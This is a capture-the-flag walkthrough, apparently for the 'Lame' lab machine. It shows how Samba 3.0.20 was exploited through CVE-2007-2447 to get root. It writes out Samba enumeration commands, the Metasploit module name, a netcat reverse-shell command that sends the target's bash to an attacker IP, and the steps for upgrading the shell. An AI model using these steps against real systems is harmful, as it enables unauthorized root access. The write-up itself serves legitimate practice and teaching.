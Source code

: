 #### Enumeration 
- Open ports `21,22,139,445`
- FTP `anonymous` login allowed, nothing enumerated
- Enumerating the samba shares, `tmp` share is accessable
- Confirming the shared folders accessability via `enum4linux`
- Searchsploit on `samba 3.0.20` reveals `CVE-2007-2447`


#### Obtaining Shell
##### With MSF:
- `use exploit/multi/samba/usermap_script`
- Setting rhosts, and exploit
- Obtained shell as `root` 

##### With Samba logon():
- logging into the /tmp shared folder
- using the logon command available for smb, a reverse shell is obtained via nc
- Obtained shell as `root`

#### Commands:

**ftp anonymous login**
```bash
ftp 10.10.10.3
> password: <ENTER>
```

**Samba enumeration**
```bash
# smbclient enumeration
smbclient -L 10.10.10.3
# enum4linux
enum4linux -S 10.10.10.3
# accessing shared folders via smbclient
smbclinet //10.10.10.3/tmp
```

**Netcat commands**
```bash
# Obtaining a reverse shell, sends the remote machine's(LAME's) bash to hacker's machine (10.10.14.6)
nc 10.10.14.6 1337 -e /bin/bash
# waiting dfor incoming connection
nc -lvnp 1337
```

**Interactive shell**
```bash
# waiting for the connection
nc -lvnp 1337
# after getting connection, confirming the version of python
which python
# obtaining bash via python
python -c 'import pty;pty.spawn("/bin/bash");'
# to use tab auto completion
<ctrl + z>
stty raw -echo
fg
<enter>
<enter>
# Fully interactive shell obtained
```
